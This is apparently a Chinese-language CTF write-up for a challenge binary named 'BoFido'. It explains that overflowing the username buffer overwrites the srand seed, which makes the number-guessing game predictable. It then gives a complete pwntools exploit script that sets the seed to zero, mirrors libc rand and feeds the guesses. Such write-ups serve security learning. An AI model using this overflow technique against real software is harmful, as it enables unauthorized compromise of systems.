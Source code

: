 根据elf文件中main可以看出主要逻辑为读取一个用户名然后进行猜数字
再读取用户名时可以溢出到rand(seed)的seed，然后就得到随机数
故可以得到exp
exp如下
```
from pwn import *
from ctypes import *
context.log_level = 'debug'
sh = process("./BoFido")
payload=b'a'*0x20+p32(0)
sh.sendafter('Enter your name:',payload)
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
libc.srand(0)
for  i in range(10):
    num = ""
    num += str(libc.rand() % 255)
    num +=' '
    num += str(libc.rand() % 255)
    num +=' '
    num += str(libc.rand() % 255)
    print(num)
    sh.sendlineafter("choose your numbers:",num)
sh.interactive()
```